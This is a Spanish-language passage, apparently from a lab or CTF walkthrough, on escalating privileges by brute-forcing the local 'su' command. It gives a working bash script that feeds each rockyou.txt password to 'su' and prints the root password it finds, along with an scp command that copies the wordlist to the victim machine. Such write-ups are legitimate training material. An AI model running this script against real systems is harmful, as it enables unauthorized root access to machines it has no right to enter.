 Podemos hacer fuerza bruta con los usuarios que están registrados en el equipo local con el fin de escalar privilegios, para ello haremos uso de bash scripting y del diccionario `rockyou.txt`.
Primero que nada debemos traernos el diccionario a la máquina víctima, ya sea montando un servidor `http` con python en nuestra máquina atacante o por ssh haciendo uso delcomando `scp`.

```
scp /usr/share/SecLists/rockyou.txt balutin@172.17.0.3:/tmp/
```

Y ahora, en el directorio `tmp`, haremos uso del siguiente script en bash:

```
#!/bin/bash  
echo "[*] Iniciando fuerza bruta contra 'su' con rockyou.txt"  
echo "[*] Diccionario: rockyou.txt"  
echo "[*] Esto puede tomar tiempo..."  
echo ""  
  
counter=0  
while IFS= read -r password; do  
    counter=$((counter + 1))  
      
    # Mostrar progreso cada 1000 intentos  
    if [ $((counter % 1000)) -eq 0 ]; then  
        echo "[*] Intentos realizados: $counter"  
    fi  
      
    # Probar la contraseña  
    echo "$password" | timeout 2 su -c 'echo "SUCCESS"' 2>/dev/null | grep -q "SUCCESS"  
      
    if [ $? -eq 0 ]; then  
        echo ""  
        echo "[+] ¡CONTRASEÑA DE ROOT ENCONTRADA!"  
        echo "[+] Contraseña: $password"  
        echo "[+] Intentos realizados: $counter"  
        exit 0  
    fi  
      
done < rockyou.txt  
  
echo "[-] Fuerza bruta completada. No se encontró la contraseña."  
echo "[-] Total de intentos: $counter"
```

```
nano bruteForce.sh
//pega el script
chmod +x bruteForce.sh
./bruteForce.sh
```

![[Pasted image 20250715193616.png]]

